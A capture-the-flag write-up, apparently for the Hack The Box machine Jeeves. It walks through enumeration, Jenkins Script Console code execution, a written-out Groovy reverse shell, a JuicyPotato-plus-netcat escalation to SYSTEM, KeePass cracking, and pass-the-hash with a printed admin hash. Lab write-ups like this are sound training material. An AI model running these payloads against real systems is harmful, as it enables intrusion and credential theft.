


# Attack Chain

```
└─► Port 50000 — Jetty/Jenkins
    └─► ffuf → /askjeeves (Jenkins Instance)
        └─► Script Console (Groovy) → RCE
            └─► Reverse shell — jeeves\kohsuke
                └─► whoami /priv → SeImpersonatePrivilege
                    └─► JuicyPotato (CLSID BITS) → nt authority\system
                        └─► ADS: more < hm.txt:root.txt → root flag
```

# Sommaire

- [Enumeration](#enumeration)
	- [Nmap](#nmap)
	- [SMB](#smb)
- [Ask Jeeves - Port 80](#ask-jeeves---port-80)
- [Jetty - Port 50000](#jetty---port-50000)
	- [Directory fuzzing](#directory-fuzzing)
	- [Jenkins](#jenkins)
	- [Shell as kohsuke](#shell-as-kohsuke)
- [Privilege Escalation](#privilege-escalation)
	- [kohsuke's privileges](#kohsukes-privileges)
	- [Tools Transfer](#tools-transfer)
	- [Exploit SeImpersonatePrivilege](#exploit-seimpersonateprivilege)
	- [Root flag](#root-flag)
- [Bonus](#bonus)

---
# Enumeration

### Nmap

```
nmap -sVC 10.129.*.* -oA nmap
Starting Nmap 7.93 ( https://nmap.org ) at 2026-05-28 02:37 EDT
Nmap scan report for 10.129.228.112
Host is up (0.042s latency).
Not shown: 996 filtered tcp ports (no-response)
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 10.0
|_http-title: Ask Jeeves
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
135/tcp   open  msrpc        Microsoft Windows RPC
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
50000/tcp open  http         Jetty 9.4.z-SNAPSHOT
|_http-title: Error 404 Not Found
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
Service Info: Host: JEEVES; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 5h00m00s, deviation: 0s, median: 5h00m00s
| smb2-time: 
|   date: 2026-05-28T11:37:50
|_  start_date: 2026-05-28T11:33:15
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 52.53 seconds
```

There are only 4 open ports. We know that the target is a Windows, and that the name of the machine is `JEEVES`.

### SMB

We do not have credentials to enumerate SMB Shares properly, but we can see if NULL session or guest user is accepted by the target.

```
nxc smb 10.129.*.* -u '' -p ''             
SMB  10.129.*.*  445 JEEVES [*] Windows 10 Pro 10586 x64 (name:JEEVES) (domain:Jeeves) (signing:False) (SMBv1:True)

SMB         10.129.*.*  445    JEEVES           [-] Jeeves\: STATUS_ACCESS_DENIED 
```

```
nxc smb 10.129.*.* -u 'guest' -p ''                                          
SMB         10.129.*.*  445    JEEVES    [*] Windows 10 Pro 10586 x64 (name:JEEVES) (domain:Jeeves) (signing:False) (SMBv1:True)

SMB     10.129.*.*  445    JEEVES    [-] Jeeves\guest: STATUS_ACCOUNT_DISABLED
```

# Ask Jeeves - Port 80

Let's start by exploring port 80.


We have a field where we can ask something at Jeeves. But anything will redirect us to `/error.html?` giving us some info about the backend of the server.



Unfortunatly, nothing can be exploited from this port. 
There are no hidden directories, no CVE that can be applied, and nothing can be done with the error.

# Jetty - Port 50000

We can head to port 50000 to see if we get luckier.


From this page, we got some informations about the target such as the version of Jetty. We also know that Jetty is a component of Jenkins.

### Directory fuzzing

Let's try to fuzz directories with `ffuf`.

```
ffuf -c -w `fzf-wordlists` -u "http://10.129.*.*:50000/FUZZ"   

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0
________________________________________________

 :: Method           : GET
 :: URL              : http://10.129.*.*:50000/FUZZ
 :: Wordlist         : FUZZ: /opt/lists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-lowercase-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

askjeeves               [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 36ms]
```

We have a hit on `/askjeeves`. Let's see what we find.


### Jenkins

We are redirected to a Jenkins Instance. The script console is located under `Manage jenkins` > `Script Console`. From there we can try to execute a groovy script and perform command on the system.

Let's use the following to see what user runs Jenkins.

```
def output = "whoami".execute().text
println output
```


### Shell as kohsuke

It works, let's get a reverse shell with the following payload : 

```
String host="10.10.*.*";
int port=443;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

We start a listener, and after clicking on `run` we should get a connexion back.

```
penelope -i tun0 -p 443
[+] Listening for reverse shells on 10.10.*.*:443 
➤  🏠 Main Menu (m) 💀 Payloads (p) 🔄 Clear (Ctrl-L) 🚫 Quit (q/Ctrl-C)
[+] Got reverse shell from JEEVES~10.129.*.*-Microsoft_Windows_10_Pro-x64-based_PC 😍 Assigned SessionID <1>
[+] Added readline support...
[+] Interacting with session [1], Shell Type: Readline, Menu key: Ctrl-D 
[+] Logging to /root/.penelope/sessions/JEEVES~10.129.*.*-Microsoft_Windows_10_Pro-x64-based_PC/2026_05_28-03_42_08-584.log 📜
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
C:\Users\Administrator\.jenkins>whoami
whoami
jeeves\kohsuke

C:\Users\Administrator\.jenkins>
```

# Privilege Escalation

Now that we have a foothold on the target system, we need to look for a way to escalate our privilege.

### kohsuke's privileges

```
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeShutdownPrivilege           Shut down the system                      Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeUndockPrivilege             Remove computer from docking station      Disabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
SeTimeZonePrivilege           Change the time zone                      Disabled
```

We have `SeImpersonatePrivilege` enabled on our account. Which mean we can exploit know vulnerability with tools such as **PrintSpoofer** or **JuicyPotato** to execute command as `SYSTEM`.

### Tools Transfer

First we must transfer our tools to the target by starting an smb server on our machine.

```
smbserver.py -smb2support share .    
```

Now from the target, we can copy the files inside our share to the target.

```
C:\Users\kohsuke\Documents> copy \\10.10.*.*\EXEGOL\JuicyPotato.exe C:\Users\kohsuke\Documents\JuicyPotato.exe
```

```
C:\Users\kohsuke\Documents> copy \\10.10.16.87\EXEGOL\nc.exe C:\Users\kohsuke\Documents\nc.exe
```

Let's confirm the transfer.

```
C:\Users\kohsuke\Documents> dir

<SNIP>

05/28/2026  08:54 AM    <DIR>          .
05/28/2026  08:54 AM    <DIR>          ..
09/18/2017  01:43 PM             2,846 CEH.kdbx
05/28/2026  03:49 AM            29,696 nc.exe
05/28/2026  03:49 AM            27,136 JuicyPotato.exe
               3 File(s)         59,678 bytes
               2 Dir(s)   2,603,163,648 bytes free
```

### Exploit SeImpersonatePrivilege

We can now run the following command using `JuicyPotato.exe` to send us a reverse shell that should be running as the `SYSTEM` user context.

```
\JuicyPotato.exe -l 9001 -p C:\windows\system32\cmd.exe -a "/c C:\Users\kohsuke\Documents\nc.exe -e cmd.exe 10.10.*.* 9001" -t * -c {659cdea7-489e-11d9-a9cd-000d56965251}
```

```
penelope -i tun0 -p 9001                   
[+] Listening for reverse shells on 10.10.*.*:9001 
➤  🏠 Main Menu (m) 💀 Payloads (p) 🔄 Clear (Ctrl-L) 🚫 Quit (q/Ctrl-C)
[+] Got reverse shell from JEEVES~10.129.*.*-Microsoft_Windows_10_Pro-x64-based_PC 😍 Assigned SessionID <1>
[+] Added readline support...
[+] Interacting with session [1], Shell Type: Readline, Menu key: Ctrl-D 
[+] Logging to /root/.penelope/sessions/JEEVES~10.129.*.*-Microsoft_Windows_10_Pro-x64-based_PC/2026_05_28-04_01_54-254.log 📜
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
C:\Windows\system32>whoami
whoami
nt authority\system
```

### Root flag

The root flag has been hidden by the creator, but it can be retrieved this way.

```
C:\Users\Administrator\Desktop> more < hm.txt:root.txt
afbc<SNIP>
```


Time to root : 1h30

# Bonus

There is a way to obtain a shell as administrator by retrieving the keepass file under `C:\Users\kohsuke\Documents`.

Then on our machine we export the hash of the database using `keepass2john`.

```
keepass2john CEH.kdbx > keepass.hash 
```

Then we attempt to crack it

```
john keepass.hash                                  
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [AES/Argon2 128/128 SSE2])
Cost 1 (t (rounds)) is 6000 for all loaded hashes
Cost 2 (m) is 0 for all loaded hashes
Cost 3 (p) is 0 for all loaded hashes
Cost 4 (KDF [0=Argon2d 2=Argon2id 3=AES]) is 3 for all loaded hashes
Will run 4 OpenMP threads
Note: Passwords longer than 41 [worst case UTF-8] to 124 [ASCII] rejected
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
Warning: Only 4 candidates buffered for the current salt, minimum 8 needed for performance.
Almost done: Processing the remaining buffered candidate passwords, if any.                                                                                                              
0g 0:00:00:00 DONE 1/3 (2026-05-28 05:35) 0g/s 27420p/s 27420c/s 27420C/s Ceh1901..Ceh1900
Proceeding with wordlist:/opt/tools/john/run/password.lst
Enabling duplicate candidate password suppressor using 256 MiB
moonshine1       (CEH)     
1g 0:00:00:00 DONE 2/3 (2026-05-28 05:35) 1.613g/s 35075p/s 35075c/s 35075C/s shorty7..moonshine1
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

The password of the `.kbdx` file is `moonshine1`.




We can now use the hash stored in the `Backup stuff` entry which is valid for the user `Administrator`.


```
nxc smb 10.129.*.* -u 'administrator' -H 'e0fb1fb85756c24235ff238cbe81fe00'          
SMB   10.129.*.*  445    JEEVES    [*] Windows 10 Pro 10586 x64 (name:JEEVES) (domain:Jeeves) (signing:False) (SMBv1:True)
SMB      10.129.*.*     445    JEEVES                                           [+] jeeves\administrator:e0fb1fb85756c24235ff238cbe81fe00 (admin)
```
